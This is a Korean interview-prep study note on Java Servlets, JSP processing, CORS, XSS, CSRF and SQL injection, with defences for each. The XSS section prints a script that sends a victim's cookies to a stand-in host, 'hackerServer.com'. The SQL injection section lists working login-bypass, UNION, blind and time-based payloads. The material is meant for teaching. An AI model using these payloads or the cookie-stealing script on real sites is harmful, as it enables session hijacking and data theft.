 ## Servlet이란 어떤 것인지

<details>
<summary>생각해보고 답 확인</summary>

<p align="center">
<img src="https://github.com/dnzp75/Java/assets/105201451/de3307b6-2fa2-411d-93e8-eaa763f1b98e" width="550" height="300"/>

 - 동적 웹 페이지를 만들 때 사용되는 자바 기반의 웹 애플리케이션 프로그래밍 기술이다. 
 
 - 서블릿은 웹 요청과 응답의 흐름을 간단한 메서드 호출만으로 체계적으로 다룰 수 있게 해준다.

   ※ 서블릿은 서버에서 실행되다가 웹 브라우저에서 요청을 하면 해당 기능을 수행한 후 웹 브라우저에 결과를 전송한다.

▶ 서블릿(Servlet)의 주요 특징
- 클라이언트의 Request에 대해 동적으로 작동하는 웹 어플리케이션 컴포넌트
- 기존의 정적 웹 프로그램의 문제점을 보완하여 동적인 여러 가지 기능을 제공
- JAVA의 스레드를 이용하여 동작
- MVC패턴에서 컨트롤러로 이용됨
- 컨테이너에서 실행
- 보안 기능을 적용하기 쉬움


### 2. 서블릿의 동작과정

<p align="center">
<img src="https://github.com/dnzp75/Java/assets/105201451/99135836-2f0e-4c04-b1a7-5eaf65f6b423" width="550" height="300"/>

클라이언트가 웹 서버에 요청하면 / 웹 서버는 그 요청을 톰캣과 같은 [WAS]에 위임한다. / 그러면 WAS는 각 요청에 해당하는 서블릿을 실행한다. / 그리고 서블릿은 요청에 대한 기능을 수행한 후 결과를 반환하여 클라이언트에 전송한다.

```
1. 클라이언트 요청
2. HttpServletRequest, HttpServletResponse 객체 생성
3. Web.xml이 어느 서블릿에 대해 요청한 것인지 탐색
4. 해당하는 서블릿에서 service() 메소드 호출
5. doGet() 또는 doPost() 호출
6. 동적 페이지 생성 후 ServletResponse 객체에 응답 전송
7. HttpServletRequest, HttpServletResponse 객체 소멸
```

※ web.xml : 서블릿을 작성했다면 / 해당 서블릿을 사용자가 요청한 경로와 맵핑시켜야 / WAS에서 맵핑된 정보를 읽어서 브라우저에서 해당 URL로 HTTP요청 시 / 해당 서블릿으로 요청을 전달해 줄 수 있다. 소스를 분석할 때도 가장 먼저 확인해봐야 할 부분이다. 톰캣을 예로 들면 웹 어플리케이션 서비스 처리에 대해 정의된 환경 설정 파일이 server디렉터리의 web.xml에 있다.

### ▶ 서블릿 형식

```java
public class FirstServlet extends HttpServlet {
	@Override
    public void init() {
    ...
	}

    @Override
    public void doGet(HttpServletRequest req, HttpServletResponse resp) {
    ...
    }

    @Override
    public void destroy() {
    ...
    }
}
```

### 3. 서블릿 생명주기

서블릿도 자바 클래스이므로 실행하면 [ 초기화부터 서비스 수행 후 소멸하기까지의 과정을 거친다.] 

이 과정을 서블릿의 생명주기라하며 각 단계마다 **호출되어 기능을 수행하는 콜백 메서드**를 서블릿 생명주기 메서드라한다.

1. 클라이언트의 요청이 들어오면  / 컨테이너는 해당 서블릿이 메모리에 있는지 확인하고, 없을 경우 init()메서드를 호출하여 메모리에 적재한다. init()은 처음 한번만 실행되기 때문에, 서블릿의 스레드에서 공통적으로 사용해야 하는 것이 있다면 오버라이딩 하여 구현하면 된다. 실행 중 서블릿이 변경될 경우, 기존 서블릿을 destroy()하고 init()을 통해 새로운 내용을 다시 메모리에 적재한다.

2. init()이 호출된 후 클라이언트의 요청에 따라서 service() 메소드를 통해 요청에 대한 응답이 doGet()과 doPost()로 분기된다. 이 때 서블릿 컨테이너가 클라이언트의 요청이 오면 가장 먼저 처리하는 과정으로 생성된 HttpServletRequest, HttpServleResponse에 의해 request와 response 객체가 제공된다.

3. 컨테이너가 서블릿에 종료 요청을 하면 destroy() 메소드가 호출되는데 마찬가지로 한번만 실행되며, 종료시에 처리해야 하는 작업들은 destroy() 메소드를 오버라이딩하여 구현하면 된다.

### ▶ 서블릿 생명주기 < 메서드 >

**초기화 : init()**

- 서블릿 요청 시 맨 처음 한 번만 호출된다.
- 서블릿 생성 시 초기화 작업을 주로 수행한다.

**작업 수행 : doGet(), doPost()**

- 서블릿 요청 시 매번 호출된다.
- 실제로 클라이언트가 요청하는 작업을 수행한다.

**종료 : destroy()**

- 서블릿이 기능을 수행하고 메모리에서 소멸될 때 호출된다.
- 서블릿의 마무리 작업을 주로 수행한다.

### 4. 서블릿 컨테이너

- 서블릿 컨테이너란, 구현되어 있는 servlet 클래스의 규칙에 맞게 서블릿을 담고 관리해주는 컨테이너다.

- 클라이언트에서 요청을 하면 컨테이너는 HttpServletRequest, HttpServletResponse 두 객체를 생성하여 post, get여부에 따라 동적인 페이지를 생성하여 응답을 보낸다.

</details>

### Servlet에서 리퀘스트(요청)를 받으면 서블릿에 있는 어떤 메서드들이 호출되는지 설명하라 

### Servlet의 생명주기에 대해 설명하라 

### Servlet이 호출될 때 처리 과정이 어떻게 되는가? 

### JSP 동작 과정에서 Servlet이 어떻게 사용되는지 설명하라. 

### JSP 처리 과정

<details>
<summary>생각해보고 답 확인</summary>

웹 브라우저에 JSP 페이지에 해당하는 URL을 입력하면, 톰캣 서버는 다음과 같은 과정을 거쳐 JSP 페이지를 실행한다.

<p align="center">
<img src="https://github.com/dnzp75/Java/assets/105201451/6cfb71bc-5c98-4d58-a7e7-cef9c28af427" width="550" height="300"/>


WAS는 JSP 페이지에 대한 요청이 들어오면 다음과 같은 처리를 한다.

JSP에 해당하는 서블릿이 존재하지 않을 경우(과정 1.1)

- JSP 페이지로부터 자바 코드를 생성한다. (과정 1.2)
- 자바 코드를 컴파일해서 서블릿 클래스를 생성한다. (과정 1.3)
- 서블릿에 클라이언트 요청을 전달한다. (과정 2.1)
- 서블릿이 요청을 처리한 결과를 응답으로 생성한다. (과정 2.2)
- 응답을 웹 브라우저에 전송한다. (과정 3)

JSP에 해당하는 서블릿이 존재하는 경우(즉, 이미 과정 1.1~1.3을 거친 경우)

- 서블릿에 클라이언트 요청을 전달한다. (과정 2.1)
- 서블릿이 요청을 처리한 결과를 응답으로 생성한다. (과정 2.2)
- 응답을 웹 브라우저에 전송한다. (과정 3)

즉, JSP 페이지를 요청할 때에는 JSP를 직접 실행하는 것이 아니라, JSP를 자바 소스 코드로 변환한 뒤 컴파일해서 생성한 서블릿을 생성하는 것이다. 여기서 JSP 페이지를 자바 코드로 변경하는 단계를 "변환(translation)단계"(과정 1.2)라고 하며, 자바 코드를 서블릿 클래스로 변경하는 단계를 "컴파일(compile)단계"(과정 1.3)라고 한다.

톰캣은 work 폴더에 JSP를 변환한 자바 소스 코드와 서블릿 클래스를 생성한다. 예를 들어, 앞서 3장에서 실행했던 JSP의 자바 소스 코드와 서블릿 클래스는 다음 폴더에서 찾을 수 있다.

```
C:\apache-tomcat-8.0.2\work\Catalina\localhost\chap03\org\apache\jsp
```

위 폴더를 보면 JSP 파일을 자바 코드로 변환한 소스 코드와 컴파일된 클래스 파일을 발견할 수 있다.

JSP 페이지를 변경하면 JSP 페이지는 기존에 이미 서블릿이 생성되었는지에 상관없이 위의 과정을 거쳐 JSP 페이지로부터 서블릿 클래스를 다시 생성한다.

> JSP를 실행한다는 말은 곧 JSP 페이지를 컴파일한 결과인 서블릿 클래스를 실행한다는 의미가 된다.
>

</details>





## CORS란 무엇인지?

<details>
<summary>생각해보고 답 확인</summary>

- 브라우저 환경에서만 적용되며 한 출처가 다른 출처에 요청을 할 수 있도록 하는 보안 메커니즘

- 모든 브라우저는 단일 출처 정책(Single Origin Policy)을 따른다

- 즉, 기본적으로 다른 출처에 요청할 수 없지만 서버가 적절하게 구성된 CORS 헤더를 제공하는 경우 선택적으로 교차 출처 정책을 사용할 수 있습니다.

 ### 브라우저에서만 적용된다는 말은 무슨 말인가?
 
- 브라우저에서 다른 서버에서 요청할 경우에 해당되고, 브라우저를 거치지 않고 **서버 간 통신**을 할 때는 이 정책이 적용되지 않는다.

### 단일 출처 정책(Single Origin Policy)이 무엇인가?

- **origin(출처)** 이란 scheme(protocol), host(domain), port 로 구성

- 예를들어, https://www.google.com/maps 라는 주소가 있다고하면 [ protocol은 https:// ] [ Host는 www.google.com ] [ Port는 :443 ]

- 동일 출처(Same Origin) 란 scheme, host, port 가 모두 같을때를 말한다.

- SOP(Same-Origin Policy) 이란 같은 출처에서만 리소스를 공유할 수 있다는 규칙

### 다른 origin에 있는 리소스를 허용하지 않는 이유는 무엇인가?

- ( = 이런 정책이 왜 존재할까?) 만약 다른 출처의 어플리케이션이 서로 통신하는 것에 대해 아무런 제약도 존재하지 않는다면 악의를 가진 사용자가 소스 코드를 보고 CSRF(Cross-Site Request Forgery)나 XSS(Cross-Site Scripting)와 같은 방법을 사용하여 정보를 탈취할 수 있다.

- CORS는 다른 출처의 리소스가 필요한 경우, SOP를 우회하기 위한 여러가지 방법 중 가장 권장되는 방법이다.

https://chanto11.tistory.com/67

https://ingg.dev/cors/

</details>




------
## XSS란 무엇인지?

<details>
<summary>생각해보고 답 확인</summary>

- 공격자가 클라이언트 측 스크립트를 웹 페이지에 삽입하는 공격

- XSS 를 사용하여 동일 출처 정책 및 CSRF 보호를 모두 우회 할 수 있습니다.

- 사용자가 웹 사이트를 방문 할 때마다 트리거되고 이는 서버를 손상시킬 수 있습니다.

- XSS 는 가장 일반적으로 악용되는 취약점입니다.

- XSS 는 출력부분에서 가장 잘 처리할 수 있습니다.

[ 입력 -> 데이터베이스 -> **출력(이스케이프 처리)** ]

### esacpe를 처리한다 라는 말을 들어보았는가? 이게 어떤걸 말하는가?

특정 문자를 원래의 기능에서 벗어나게 변환하는 행위를 **이스케이프(Escape)** 라고 한다.

 HTML에서 다음과 같은 상황은 렌더링이 되지 않는다.  ->  <div>  <onlydev     </div> 
  
HTML은 '<'을 태그의 시작으로 인식하기 때문에 뒷부분이 에러가 나서 제대로 렌더링이 되지 않는다. 이런 상황들을 고려해 원래의 기능에서 벗어난 문자열로 변환하여 의도대로 구문 분석을 하도록 이스케이프를 한다.     ->  <div>     &lt;onlydev      </div>

**그런데 이스케이프가 어떻게 XSS 공격을 방지할 수 있을까?** 

크로스 사이트 스크립팅 공격은 블로그나 게시판 같은 서비스에서 주로 일어나며 여러 사람들이 보는 글에 **스크립트**를 주입해서 사용자의 정보(쿠키, 세션)를 탈취하거나 비정상적인 기능을 수행하게 한다.

예를 들어 글을 쓸 때

1. 제목과 글을 입력해서 글쓰기를 클릭하면
2. 웹 서버에선 해당 데이터를 받아서 DB에 저장한다.
3. 다른 사용자가 해당 서버에 접속해 DB에 있는 해당 글을 읽게 되면
4. 그 때 써놓은 내용을 볼 수 있다.

이런 과정에서 글 대신 **스크립트 언어**를 써서 다른 사용자가 해당 글을 읽을 때 **스크립트 언어가 실행**되어 피해를 입게 하는 것이 XSS 공격이다.
```
<script>
  let xmlHttp = new XMLHttpRequest();
  const url =
    'http://hackerServer.com?victimCookie=' +
    document.cookie;
  xmlHttp.open('GET', url);
  xmlHttp.send();
</script>
```

해당 스크립트 코드가 실행 되면 피해자의 쿠키값을 해커의 서버 주소인 http://hackerServer.com에 그대로 전부 보내게 되고 해당 정보를 이용해 악용할 수 있는 것이다. 

```
<!-- 이스케이프 후  -->
&lt;script&gt;
  let xmlHttp = new XMLHttpRequest();
  const url =
    &quot;http://hackerServer.com?victimCookie=&quot; +
    document.cookie;
  xmlHttp.open(&quot;GET&quot;, url);
  xmlHttp.send();
&lt;/script&gt;
```

렌더링이 되기 전(사용자에게 보이기 전) 이스케이프된 모든 값은 브라우저에선 아래와 같이 입력한 그대로 보이게 되지만 HTML 본연의 태그나 스크립트 기능이 제거가 되기 때문에 XSS(Cross Site Scripting) 공격을 방지할 수 있다.

```
<!-- 이스케이프 후 브라우저에서 보이는 화면-->
<script>
  let xmlHttp = new XMLHttpRequest();
  const url =
    'http://hackerServer.com?victimCookie=' +
    document.cookie;
  xmlHttp.open('GET', url);
  xmlHttp.send();
</script>
```

https://wikidocs.net/127508

https://onlydev.tistory.com/78

### **■ 공격 유형에 따른 분류**

공격자가 삽입한 악성스크립트가 사용자 측에서 어떻게 동작하는지에 따라 크게 세 가지로 분류할 수 있으며 각각의 개념과 동작 과정은 다음과 같다.


### **Stored XSS (저장형 크로스사이트 스크립팅)**

공격자의 악성스크립트가 데이터베이스에 저장되고 이 값을 출력하는 페이지에서 피해가 발생하는 취약점이다.

공격자는 악성스크립트가 포함된 게시물을 작성하여 게시판 등 사용자가 접근할 수 있는 페이지에 업로드한다. 이때 사용자가 악성스크립트가 포함된 게시물을 요청하면, 공격자가 삽입한 악성스크립트가 사용자 측에서 동작하게 된다.

공격자의 악성스크립트가 서버에 저장되어 불특정 다수를 대상으로 공격에 이용될 수 있어 Reflected XSS보다 공격 대상의 범위가 훨씬 크다.

<p align="center">
<img src="https://github.com/dnzp75/Java/assets/105201451/68792e47-656d-47ff-b529-9e0f6f6b4777" width="500" height="300"/>
  
[Stored XSS]

<p align="center">
<img src="https://github.com/dnzp75/Java/assets/105201451/46b79afb-568a-4364-926d-5479bb3ff3da" width="400" height="300"/>

Stored XSS 공격 과정은 다음을 통해 확인할 수 있다.

[Stored XSS 공격 과정]


### **Reflected XSS (반사형 크로스사이트 스크립팅)**

사용자가 요청한 악성스크립트가 사용자 측에서 반사(Reflected)되어 동작하는 취약점으로, 공격자의 악성스크립트가 데이터베이스와 같은 저장소에 별도로 저장되지 않고 사용자의 화면에 즉시 출력되면서 피해가 발생한다.

공격자는 악성스크립트가 포함된 URL을 이메일, 메신저 등을 통해 사용자가 클릭할 수 있도록 유도한다. 사용자가 악성스크립트가 삽입된 URL을 클릭하거나 공격자에 의해 악의적으로 조작된 게시물을 클릭했을 때 사용자의 브라우저에서 악성스크립트가 실행된다.

<p align="center">
<img src="https://github.com/dnzp75/Java/assets/105201451/7fd0cd4a-127f-4e92-b672-735dd669aaf4" width="500" height="300"/>


[Reflected XSS]

Reflected XSS 공격 과정은 다음을 통해 확인할 수 있다.

<p align="center">
<img src="https://github.com/dnzp75/Java/assets/105201451/fada8137-1912-4d96-8d54-44b8f244752b" width="400" height="300"/>

[Reflected XSS 공격 과정]


### **DOM Based XSS (DOM 기반 크로스사이트 스크립팅)**

공격자의 악성스크립트가 DOM 영역에서 실행됨으로써 서버와의 상호작용 없이 브라우저 자체에서 악성스크립트가 실행되는 취약점이다. DOM 영역에 변화가 생기면 브라우저는 서버로 패킷을 보내지 않고 DOM 영역에서 페이지를 변환시킨다. 따라서 DOM의 일부로 실행되기 때문에 브라우저 자체에서 악성스크립트가 실행된다.

- DOM(Document Object Model, 문서 객체 모델) 이란?

브라우저가 웹 페이지를 렌더링 하는데 사용하는 모델로 HTML 및 XML 문서에 접근하기 위한 인터페이스이다. 브라우저는 HTML 문서를 읽고 해석한 결과를 DOM 형태로 재구성하여 사용자에게 제공한다.

</details>


------
## CSRF란 무엇인지?

<details>
<summary>생각해보고 답 확인</summary>

- 사용자가 자신의 의지와 무관하게 공격자가 의도한 행동을 해서 특정 웹 페이지를 보안에 취약하게 하거나 수정, 삭제 등의 작업을 하게 만드는 공격 방법.

- 공격 난이도가 높지 않아 흔히 사용된다.

- XSS을 이용한 공격이 사용자가 특정 웹사이트를 신용하는 점을 노린 것이라면,

- CSRF는 특정 웹사이트가 사용자의 웹 브라우저를 신용하는 상태를 노린 것이다.

https://devscb.tistory.com/123

### **1.2. CSRF 전제 조건과 공격 과정**

CSRF 공격을 위한 조건과 과정에 대해 알아보겠습니다. CSRF 공격을 시도하기 위해선 아래와 같은 몇 가지 조건이 필요합니다.

- 사용자가 보안이 취약한 서버로부터 이미 인증을 받은 상태여야 합니다.
- 쿠키 기반으로 서버 세션 정보를 획득할 수 있어야 합니다.
- 공격자는 서버를 공격하기 위한 요청 방법에 대해 미리 파악하고 있어야 합니다. 예상치 못한 파라미터가 있으면 불가능합니다.

위와 같은 조건이 만족되면 다음과 같은 과정을 통해 CSRF 공격이 수행됩니다.

1. 사용자는 보안이 취약한 서버에 로그인합니다.
2. 로그인 이후 서버에 저장된 세션 정보를 사용할 수 있는 `sessionID`가 사용자 브라우저 쿠키에 저장됩니다.
3. 공격자는 서버에 인증된 브라우저의 사용자가 악성 스크립트 페이지를 누르도록 유도합니다.
    - 해당 악성 스크립트가 담긴 페이지를 클릭하도록 유도하는 방법은 다양한 것 같으나 몇 가지 유형을 정리하자면 다음과 같습니다.
    - 게시판에 악성 스크립트를 게시글로 작성하여 관리자 혹은 다른 사용자들이 게시글을 클릭하도록 유도합니다.
    - 메일 등으로 악성 스크립트를 직접 전달하거나, 악성 스크립트가 적힌 페이지 링크를 전달합니다.
4. 사용자가 악성 스크립트가 작성된 페이지 접근시 쿠키에 저장된 `sessionID`는 브라우저에 의해 자동적으로 함께 서버로 요청됩니다.
5. 서버는 쿠키에 담긴 `sessionID`를 통해 해당 요청이 인증된 사용자로부터 온 것으로 판단하고 처리합니다.

### CSRF를 방어하는 방법이 무엇이 있는지 설명하라

**Referrer 검증**

서버에서 사용자의 요청에 `Referrer` 정보를 확인하는 방법이 있습니다. 요청 헤더(request header) 정보에서 `Referrer` 정보를 확인할 수 있습니다. 보통이라면 호스트(host)와 `Referrer` 값이 일치하므로 둘을 비교합니다. CSRF 공격의 대부분 `Referrer` 값에 대한 검증만으로 방어가 가능하다고 합니다.

 **CSRF 토큰 검증**

임의의 CSRF 토큰을 만들어 세션에 저장합니다. 요청하는 페이지에 `hidden` 타입 input 태그를 이용해 토큰 값을 함께 전달합니다. 이후 서버에서 세션에 저장된 CSRF 토큰 값과 요청 파라미터에 담긴 토큰 값을 비교합니다

 **Double Submit Cookie 검증**

브라우저의 `Same Origin 정책`을 이용합니다. `Same Origin`이 아닌 경우 `JavaScript`로 쿠키 값을 확인하거나 수정하지 못한다는 점을 이용한 검증 방법입니다. 클라이언트(브라우저)에서 `JavaScript`로 임의의 생성한 토큰을 쿠키와 요청 헤더에 각각 담아서 서버에게 전달합니다. 서버는 전달받은 쿠키와 요청 헤더에서 각자 토큰 값을 꺼내어 이를 비교합니다. 이때, 쿠키에 저장된 토큰 정보는 이후에 재사용하지 못하도록 만료 처리합니다.

</details>




------
## SQL Injection이란 무엇인지?

<details>
<summary>생각해보고 답 확인</summary>

# SQL Injection(SQL 인젝션, SQL 삽입)이란 ?

악의적인 사용자가 응용 프로그램 보안 상의 **허점**을 의도적으로 이용해, 

악의적인 SQL문을 주입하고 실행되게 하여 데이터베이스가 비정상적인 동작을 하도록 조작하는 행위입니다.

주로 사용자가 입력한 데이터를 제대로 **필터링**, **이스케이핑**하지 못했을 경우에 발생합니다. 

이러한 injection 계열의 취약점들은 테스트를 통해 발견하기는 힘들지만 **스캐닝툴**이나 **코드 검증절차**를 거치면 보통 쉽게 발견되기 때문에 탐지하기는 쉬운 편입니다.

인젝션 공격은 OWASP에서도 1순위로 분류되었던 만큼 공격이 성공할 경우 큰 피해를 입힐 수 있어 보안에 각별한 주의가 필요합니다.

# 공격 종류 및 방법

## 1 ) Error based SQL Injection (가장 대중적인 기법)

 SQL 쿼리에 **고의적으로 오류를 발생**시키고 / 이때 출력되는 에러의 내용으로 **필요한 정보를 찾아내는 공격 기법**

기본적으로 '(싱글 쿼테이션) 또는 "(더블 쿼테이션)을 이용하여 GET, POST 요청 필드나 HTTP 헤더 값, 쿠키값 등에 삽입하여 **SQL 에러를 통해 정보를 예상**하게 됩니다. GROUP BY나 HAVING 등을 이용하기도 합니다.

### 로그인 공격 예시

로그인 페이지가 있고, 로그인을 할 때 USER_ID와 INPUT_PW를 입력받아 로그인이 진행된다고 했을 때

- 기본 쿼리문

```sql
SELECT user FROM Users WHERE uid = 'USRE_ID' AND upw = 'INPUT_PW';
```

- 공격 예시 : 로그인 창의 ID 부분에 'OR 1 = 1 --를 입력합니다.

```sql
SELECT user FROM Users WHERE uid = '' OR 1 = 1 --USRE_ID' AND upw = 'INPUT_PW';
```

- WHERE절에 있는 싱글 쿼터를 닫아주게 되고,
- OR 1 = 1로 모두 참을 만들어 준 후
- -를 이용해 그 뒤의 모든 쿼리문을 주석처리해주게 됩니다.

결과적으로 Users 테이블에 있는 모든 정보를 조회하게 되며 가장 먼저 만들어진 계정(보통 관리자 계정)으로 로그인할 수 있게 되어 관리자 계정을 탈취하게 됩니다.

## 2 ) Union base SQL Injection

UNION 키워드를 사용하여 원래의 요청에 추가 정보를 얻는 공격 기법으로 UNION 하려는 두 테이블의 컬럼 수와 데이터 형식이 같아야 합니다. 

ORDER BY 절이나 HAVING을 이용한 오류 메시지를 통해 컬럼의 수를 유추할 수 있습니다.

### 게시글 조회 공격 예시

게시판이 있고, 게시글을 검색할 때 INPUT을 받아 검색이 진행된다고 했을 때

- 기본 쿼리문

```sql
SELECT * FROM Board WHERE title LIKE '%INPUT%' OR contents '%INPUT%'
```

- 공격 예시 : 검색 창에 'UNION SELECT null, id, passwd FROM User를 -- 입력합니다.

```sql
SELECT * FROM Board WHERE title LIKE '%' UNION SELECT null, id, passwd FROM Users --%' OR contents '%INPUT%'
```

사전 공격을 통해 컬럼명과 테이블명을 얻은 후 사용자의 ID와 PW를 요청하는 쿼리문을 함께 입력하게 되면 사용자의 개인 정보가 게시글과 함께 보이게 됩니다.

## 3) Blind SQL Injection

에러가 발생되지 않는 사이트에서 데이터 베이스로부터 특정한 값이나 데이터를 전달받지 않고, 단순히 **참과 거짓의 정보만 알 수 있을 때 사용하는 공격 기법**입니다.

 limit, SUBSTR, ASCII를 사용해서 조건이 참이면 페이지가 정상적으로 출력되고 그렇지 않을 경우 출력되지 않음으로 구분이 가능합니다.

최근에는 에러 메시지를 출력하지 않는 웹 서버를 구축하고 있어 주로 사용하는 방식입니다.

### Boolean 기반 공격 예시

- 기본 쿼리문

```sql
SELECT user FROM Users WHERE uid = 'USRE_ID' AND upw = 'INPUT_PW';
```

- 공격 예시 : 로그인 폼에 DB 테이블 명을 알아내기 위한 쿼리문을 주입, 이때 임의로 가입한 idd3이라는 아이디와 함께 구문을 주입합니다.

```sql
SELECT * FROM Users WHERE uid = 'idd3' and ASCII(SUBSTR((SELECT name FROM information_schema.tables WHERE table_type='base table' limit 0,1),1,1)) > 100 -- USRE_ID' AND upw = 'INPUT_PW';
```

- limit키워드를 통해 하나의 테이블만 조회하고, SUBSTR함수로 첫 글자만 찾게 됩니다.
- ASCII를 통해 값이 변환되고 조회되는 테이블 명의 첫 번째 글자가 U면 테이블이 조회됩니다.
- 참(로그인)이 될 때까지 100 숫자를 변경하며 비교를 하게 됩니다.
- 자동화 스크립트로 만들어 단기간 내에 테이블 명을 알아낼 수도 있습니다.

### Time 기반 공격 예시

- 기본 쿼리문

```sql
SELECT user FROM Users WHERE uid = 'USRE_ID' AND upw = 'INPUT_PW';
```

- 공격 예시

```sql
SELECT user FROM Users WHERE uid = 'idd3' OR (LENGTH(DATABASE())=1 AND SLEEP(2)) -- USRE_ID' AND upw = 'INPUT_PW';
```

- 숫자 1을 조작해 현재 사용하고 있는 데이터 베이스의 길이를 알아낼 수 있습니다.
- LENGTH를 사용해 문자열 길이를 반환하도록 합니다.
- DATABASE()를 사용해 데이터베이스의 이름을 반환합니다.

SLEEP단어가 치환 처리되었을 경우, BENCHMARK나 WAIT함수를 사용할 수 있습니다.

## 4 ) Stored Procedure based SQL Injection

저장 프로시저(Stored Procedure)는 쿼리들을 모아 하나의 함수처럼 사용하기 위한 것입니다.

웹에서 저장 프로시저에 대한 접근 권한을 가짐으로써 실행이 가능해집니다. 

공격 난도가 높으나 성공 시 직접적인 피해를 입힐 수 있는 공격 기법입니다.

## 5) Mass SQL Injection

한 번의 공격으로 다량의 DB가 조작해 큰 피해를 입히는 공격 기법입니다.

# 대응 방안

### 1 ) 입력값 검증

사용자의 입력을 받을 때 검증 로직을 추가하여 값이 유효한지 검증합니다.

- ', ", #, --, = 등 특수문자와 명령어 필터링
- 데이터 길이 제한

### 2 ) 저장 프로시저 사용

동적 SQL 쿼리를 생성하지 않는 것이 SQL 인젝션을 막기 위한 가장 효과적인 방법일 것입니다. 저장 프로시저를 사용하여 지정된 형식의 데이터가 아니면 쿼리가 실행되지 않도록 합니다.

### 3 ) 서버 보안

- 데이터 베이스 권한 제한합니다.
- 신뢰 가능한 네트워크와 서버에 대해서만 접근을 허용합니다.
- SQL 서버 오류 발생 시, 해당하는 에러 메시지를 볼 수 없도록 합니다.

</details>

